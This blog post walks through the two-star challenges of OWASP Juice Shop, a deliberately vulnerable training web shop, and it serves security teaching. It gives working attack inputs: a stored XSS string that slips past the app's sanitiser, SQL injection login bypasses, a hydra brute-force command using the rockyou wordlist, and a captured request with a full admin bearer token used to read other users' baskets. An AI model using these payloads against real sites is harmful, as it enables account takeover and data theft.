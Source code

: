 ```yaml
---
layout: post
title: OWASP Juice Shop v9.3.1 - 2 Star Solutions
---
```


## Admin Section
### Access the administration section of the store.
Navigate to http://10.10.50.111/#/administration
Admin can see list of registered users, non-logged in cannot.

#### Emails

|email|
|---|
|admin@juice-sh.op
|jim@juice-sh.op
|bender@juice-sh.op
|bjoern.kimminich@googlemail.com
|ciso@juice-sh.op
|support@juice-sh.op
|morty@juice-sh.op
|mc.safesearch@juice-sh.op
|J12934@juice-sh.op
|wurstbrot@juice-sh.op
|amy@juice-sh.op
|bjoern@juice-sh.op
|bjoern.kimminich@owasp.org

#### Recycling Requests

|User|Quantity|Address|Pickup Date|
|---|---|---|---|
|2|800|Starfleet HQ, 24-593 Federation Drive, San Francisco, CA |2270-01-17T00:00:00.000Z

## Classic Stored XSS
### Perform an XSS attack with ```<script>alert(`xss`)</script>``` on a legacy page within the application.

In the Architecture overview, we are told Angular is used to create a so-called *Single Page Application*. But, the profile page looks subtly odd and dated compared with the other screens. You can update an account's username with a field, which is susceptible to XSS.

Entering ```<script>alert(`xss`)</script>```, our username gets set to ```\lert(`xss`)```. There is a custom RegEx sanitation behind the scenes. Through lots of incremental changes, we eventually arrive at an input which passes the sanitation: ```<<script><sscript>alert(`xss`)</script>```.

![XSS stored in username](/images/juice/profile_xss.png)

## Deprecated Interface
### Use a deprecated B2B interface that was not properly shut down.

As has been mentioned in a few places, only pdfs are accepted in the complaint form. If we take a look, the file input accepts .pdf and .zip (expecting a zip of multiple pdfs).

![supported](/images/juice/supported.png)

When we look closer at the input element:

![deprecated](/images/juice/deprecated.png)

```
aria-label="Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders<!---->"
```

it looks like it used to accept XML. So, I created a test file with ```touch test.xml``` and uploaded it which triggered the success state.

## Five-Star Feedback
### Get rid of all 5-star customer feedback.

On the ```/#/administration``` page, delete all the 5-star reviews.

![feedback](/images/juice/feedback.png)


### Login Admin
#### Log in with the administrator's user account.
Use SQL Injection ```' OR 1=1;--``` in email field, and any password. We can even be more explicit with ```' or 1=1 and email like('%admin%');--```.

![inject](/images/juice/sql_injection.png)


## Login MC SafeSearch
### Log in with MC SafeSearch's original user credentials without applying SQL Injection or any other bypass.
Googling MC SafeSearch we find this College Humor [video](https://www.youtube.com/watch?v=v59CX2DiX0Y).

In the song, MC SafeSearch says his password is the name of his dog Mr. Noodles, but was tricky and replaced some of the vowels with zeroes.

Email: mc.safesearch@juice-sh.op
Password: Mr. N00dles


## Password Strength
### Log in with the administrator's user credentials without previously changing them or applying SQL Injection.

If we look at the requests being made in the network tab when we navigate to ```/#/administration```, we see some interesting redacted information.

![auth_details](/images/juice/auth_details.png)

If only we could read passwords! Oh well, perhaps brute-force is in order. After the Login Admin challenge, we know the admin's email is admin@juice-sh.op. Let's go to the login form, intercept a login request, and use Burp to go through a wordlist.

Original request:

![log_req](/images/juice/log_req.png)

Send to Intruder in Burp with ```Ctrl-I```.

![attack](/images/juice/attack.png)

Get rid of the ```§```s that we don't need in the Payload Positions tab; we are only attacking the password.

```
{"email":"admin@juice-sh.op","password":"§password§"}
```

Since I have Burp Community Edition, it will take a long time for the password to be cracked. In the meantime I wrote a hydra command to do the same, faster.

```shell
$ hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form '/#/login:email=^USER^&password=^PASS^:Invalid email or password.' -fV -s 3000 -t 1
```

The password is ```admin123```.

## Security Policy
### Behave like any "white-hat" should before getting into the action.

[security.txt](https://securitytxt.org/) is a proposed standard which allows websites to define security policies. The file is recommended to be placed inside the .well-known directory.

```shell
$ curl localhost:3000/.well-known/security.txt
Contact: mailto:donotreply@owasp-juice.shop
Encryption: https://keybase.io/bkimminich/pgp_keys.asc?fingerprint=19c01cb7157e4645e9e2c863062a85a8cbfbdcda
Acknowledgements: /#/score-board
```

## View Basket
### View another user's shopping basket.
Using FoxyProxy and Burp Suite, intercept a packet of a logged in user going to their basket. We use admin here, and from the administration page we know admin has ```1``` as their user id. We can see in the following request, that baskets are stored by user id (e.g. ```GET /rest/basket/1```).
```HTTP
GET /rest/basket/1 HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1ODM4OTY0NzYsImV4cCI6MTU4MzkxNDQ3Nn0.U--ZH-AwBaigQeJRIL08JFTpWKN__InJB25NBjGvMreIz-U4kjvtBbrPW9lZHR5eM21k3_UJD8VvA0-5detIoDD8-eDOqBqtVoTThexDOYEE5GBOmemIh4GFQSjrbD-O6dzJwubmF85iw9COLjAu3UmCPOi_v5fwZt85Wo5Og4A
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: io=JAxjrx9sxN2PvPa7AAAE; language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=bKZ8yYJg36bORLxl5zMNanDAo9TjiyOUzYH18GPXj2mErq7VeQpokW9v14Bw; token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1ODM4OTY0NzYsImV4cCI6MTU4MzkxNDQ3Nn0.U--ZH-AwBaigQeJRIL08JFTpWKN__InJB25NBjGvMreIz-U4kjvtBbrPW9lZHR5eM21k3_UJD8VvA0-5detIoDD8-eDOqBqtVoTThexDOYEE5GBOmemIh4GFQSjrbD-O6dzJwubmF85iw9COLjAu3UmCPOi_v5fwZt85Wo5Og4A
If-None-Match: W/"51e-g+L4GWuN4lWam4EZuNC1rOU8MLg"
```
To solve this challenge, simply alter ```1``` to be any other valid user id. If you are still capturing, you'll get your receipt.
```HTTP
42["challenge solved",{"key":"basketAccessChallenge","name":"View Basket","challenge":"View Basket (View another user's shopping basket.)","flag":"e6982b34b6734ceadd28e5019b251f929a80b815","hidden":false}]
```

## Weird Crypto
### Inform the shop about an algorithm or library it should definitely not use the way it does.

Mention MD5 in the comment of Customer Feedback, and the challenge is solved.